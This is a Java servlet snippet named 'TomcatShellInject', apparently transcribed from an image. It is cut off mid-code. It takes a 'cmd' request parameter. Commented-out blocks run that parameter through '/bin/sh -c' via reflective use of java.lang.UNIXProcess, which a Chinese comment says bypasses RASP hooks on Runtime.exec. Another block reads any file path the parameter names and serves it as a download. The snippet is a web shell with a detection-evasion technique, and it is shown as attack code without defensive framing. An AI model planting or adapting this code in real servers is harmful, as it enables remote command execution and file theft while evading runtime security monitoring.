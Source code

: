 ```jsp
        private String message;

        public void init() {
            message = "Hello World!";
        }

        public void doGet(HttpServletRequest servletRequest, HttpServletResponse servletResponse) throws IOException {
            System.out.println(
                    "TomcatShellInject doFilter.....................................................................");
            String cmdParamName = "cmd";
            String cmd;
            if ((cmd = servletRequest.getParameter(cmdParamName)) != null){
////UNIXProcessImpl 绕过ProcessImpl.start、Runtime.exec RASP，详情搜索JNI
//            Class<?> cls = null;
//            try {
//                cls = Class.forName("java.lang.UNIXProcess");
//            } catch (ClassNotFoundException e) {
//                throw new RuntimeException(e);
//            }
//            Constructor<?> constructor = cls.getDeclaredConstructors()[0];
//            constructor.setAccessible(true);
//            String[] command = {"/bin/sh", "-c", cmd};
//            byte[] prog = toCString(command[0]);
//            byte[] argBlock = getArgBlock(command);
//            int argc = argBlock.length;
//            int[] fds = {-1, -1, -1};
//            Object obj = null;
//            try {
//                obj = constructor.newInstance(prog, argBlock, argc, null, 0, null, fds, false);
//                Method method = cls.getDeclaredMethod("getInputStream");
//                method.setAccessible(true);
//                InputStream is = (InputStream) method.invoke(obj);
//                InputStreamReader isr = new InputStreamReader(is);
//                BufferedReader br = new BufferedReader(isr);
//                StringBuilder stringBuilder = new StringBuilder();
//                String line;
//                while ((line = br.readLine()) != null) {
//                    stringBuilder.append(line + '\n');
//                }
//                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            } catch (InstantiationException | NoSuchMethodException | InvocationTargetException |
//                     IllegalAccessException e) {
//                throw new RuntimeException(e);
//            }
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

////读文件
//            File file = new File(cmd);
//            // 1. 确保文件存在且可读
//            if (!file.exists() || !file.isFile() || !file.canRead()) {
//                System.out.println("文件不存在或无法读取: " + cmd);
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_NOT_FOUND, "文件不存在");
//                return;
//            }
//            // 2. 设置响应头，提供文件下载
//            HttpServletResponse response = (HttpServletResponse) servletResponse;
//            response.setContentType("application/octet-stream");
```